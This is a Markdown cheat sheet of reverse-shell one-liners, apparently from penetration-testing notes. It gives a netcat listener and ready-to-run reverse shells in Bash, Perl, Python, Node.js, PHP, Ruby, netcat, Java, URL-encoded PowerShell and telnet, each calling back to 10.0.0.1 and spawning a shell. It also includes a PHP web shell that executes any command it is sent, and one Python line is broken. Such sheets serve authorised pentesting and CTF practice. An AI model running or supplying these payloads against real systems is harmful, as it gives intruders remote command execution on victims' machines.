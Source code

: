 # Reverse shells
> A reverse shell is a shell session established on a connection that is initiated from a remote machine, not from the local host.

---
## Listener
### Netcat
```
nc -lvnp 8000
```

## Reverse shells
### Bash
```
bash -i >& /dev/tcp/10.0.0.1/8000 0>&1
```

### Perl
```
perl -e 'use Socket;$i="10.0.0.1";$p=8000;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Python 2
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",8000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

```
python -c 'import sys,socket,os,pty;s=socket.socket() s.connect((os.getenv("10.0.0.1"),int(os.getenv("8000")))) [os.dup2(s.fileno(),fd) for fd in (0,1,2)] pty.spawn("/bin/sh")'
```

### Python 3
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",8000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

### Nodejs
```
require('child_process').exec('nc -e sh 10.0.0.1 8000')
```

### PHP
```
php -r '$sock=fsockopen("10.0.0.1",8000);exec("/bin/sh -i <&3 >&3 2>&3");'
```
```
php -r '$sock=fsockopen("10.0.0.1",8000);passthru("sh <&3 >&3 2>&3");'
```
```
php -r '$sock=fsockopen("10.0.0.1",8000);popen("sh <&3 >&3 2>&3", "r");'
```
```
php -r '$sock=fsockopen("10.0.0.1",8000);system("sh <&3 >&3 2>&3");'
```
```
php -r '$sock=fsockopen(getenv("10.0.0.1"),getenv("8000"));exec("/bin/sh -i <&3 >&3 2>&3");'
```
```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```
### Ruby
```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",8000).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Netcat
```
nc -e /bin/sh 10.0.0.1 8000
```
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 8000 >/tmp/f
```

### Java
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### Powershell
```
powershell%20-nop%20-c%20%22$client%20=%20New-Object%20System.Net.Sockets.TCPClient('10.0.0.1',8000);$stream%20=%20$client.GetStream();%5Bbyte%5B%5D%5D$bytes%20=%200..65535%7C%25%7B0%7D;while(($i%20=%20$stream.Read($bytes,%200,%20$bytes.Length))%20-ne%200)%7B;$data%20=%20(New-Object%20-TypeName%20System.Text.ASCIIEncoding).GetString($bytes,0,%20$i);$sendback%20=%20(iex%20$data%202%3E&1%20%7C%20Out-String%20);$sendback2%20=%20$sendback%20+%20'PS%20'%20+%20(pwd).Path%20+%20'%3E%20';$sendbyte%20=%20(%5Btext.encoding%5D::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()%7D;$client.Close()%22
```

### Telnet
```
TF=$(mktemp -u); mkfifo $TF && telnet 10.0.0.1 8000 0<$TF | /bin/sh 1>$TF
```

---

## 📚 References
- [github.com/swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
- [pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [github.com/LasCC/Hack-Tools](https://github.com/LasCC/Hack-Tools)
- [netsparker.com/blog/web-security/understanding-reverse-shells/](https://www.netsparker.com/blog/web-security/understanding-reverse-shells/)
- [revshells.com](https://www.revshells.com/)